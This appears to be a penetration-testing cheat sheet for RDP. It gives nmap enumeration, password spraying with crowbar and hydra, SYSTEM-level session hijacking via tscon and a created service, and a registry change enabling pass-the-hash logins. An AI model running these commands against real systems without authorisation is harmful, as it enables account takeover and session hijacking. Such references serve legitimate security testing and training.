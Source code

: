 # RDP \[3389]

## Enumeration

```
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```

## Brute force

{% hint style="danger" %}
**you could lock accounts if the failed attempts are exceeded.**
{% endhint %}

## **Password Spraying**

<pre><code><strong># crowbar
</strong><strong>crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
</strong># hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
</code></pre>

> Password spraying is a form of brute force attack where you use one password and iterate through all user names. The account could still get locked if not careful.

## Session stealing

With **SYSTEM permissions** you can access any **opened RDP session by any user** without need to know the password of the owner.

**Get openned sessions:**

```
query user
```

**Access to the selected session**

```
tscon <ID> /dest:<SESSIONNAME>
```

**Access to the selected session as local administrator priv**

```
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"
# create the service which will be ran as SYSTEM priv.
net start sessionhijack
# start the service
```

{% hint style="warning" %}
This no longer works on Server 2019
{% endhint %}

## **Service Interaction**

```shell-session
xfreerdp /v:<target-IP> /u:<user> /p:<pass>
rdesktop <target-IP> -u <user> -p <pass>
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption><p>This error could occur during /pth if DisableRestrictedAdmin is not set</p></figcaption></figure>

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

[CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)
